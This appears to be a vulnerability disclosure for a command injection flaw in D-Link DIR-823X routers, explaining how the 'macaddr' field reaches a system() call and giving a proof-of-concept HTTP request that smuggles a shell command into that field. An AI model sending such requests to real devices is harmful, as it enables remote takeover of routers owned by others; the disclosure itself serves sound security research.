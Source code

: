 # CVE-ID



# Information

**Vendor of the products:** 

**Vendor's website:** http://www.dlink.com.cn/

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ,  Zhao Jiangting

**Affected products:** DIR-823X AX3000 Series Routers

**Affected firmware version:** 240126, 240802

**Firmware download address:** http://www.dlink.com.cn/home/product?id=3118

# Overview

A command injection vulnerability in D-Link DIR-823X Series Routers with firmware versions 240126/240802 allows an authorized attacker to execute arbitrary commands on remote devices by sending a POST request to `/goform/set_prohibiting` via the corresponding function, triggering remote command execution.

# Vulnerability details

By reverse engineering the `sub_42232C` function in this binary file, we can see that the value of the `macaddr` function is copied into the `command` variable via the `snprintf` function, after which the `system` function is executed. Therefore, by maliciously crafting the value of `macaddr`, command execution can be triggered.

![image-20250306225207155](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503062327700.png)

This function can be triggered by submitting a POST request to `/goform/set_prohibiting`.

# Poc

```python
POST /goform/set_prohibiting HTTP/1.1
Host: 192.168.122.130
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 75
Origin: http://192.168.122.130
Connection: close
Referer: http://192.168.122.130/login.html
Cookie: sessionid=00000000000000000000000000000000; token=00000000000000000000000000000000

macaddr=||touch%20/set_prohibiting||&token=00000000000000000000000000000000
```

# Attack Demonstration

![image-20250306094707761](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503062327258.png)